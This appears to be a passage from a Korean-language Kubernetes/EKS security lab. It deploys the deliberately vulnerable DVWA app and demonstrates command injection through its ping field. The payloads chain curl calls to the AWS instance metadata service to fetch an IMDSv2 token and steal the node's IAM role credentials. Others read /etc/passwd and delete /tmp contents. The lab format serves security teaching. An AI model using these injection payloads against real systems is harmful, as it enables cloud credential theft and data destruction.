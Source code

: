 ```bash
              number: 80
        path: /
        pathType: Prefix
EOT
kubectl apply -f dvwa-ingress.yaml
echo -e "DVWA Web https://dvwa.$MyDomain"
```

- 웹 접속 admin / password -> DB 구성을 위해 클릭 (재로그인) -> admin / password
- Command Injection 메뉴에서 아래의 명령 실행

```bash
# 명령 실행 가능 확인
8.8.8.8 ; echo ; hostname
8.8.8.8 ; echo ; whoami

# IMDSv2 토큰 확인 후 복사
8.8.8.8 ; curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"

# EC2 Instance Profile (IAM Role) 이름 확인
8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: {IMDSv2 토큰}" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/
eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1H30SEASKL5M1

# EC2 Instance Profile (IAM Role) 자격증명탈취 성공
8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: {IMDSv2 토큰}" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1H30SEASKL5M1

# 그외 다양한 명령 실행 가능
8.8.8.8; cat /etc/passwd
8.8.8.8; rm -rf /tmp/*
```

![DVWA Command Injection 1](./images/dvwa-command-injection-1.png)
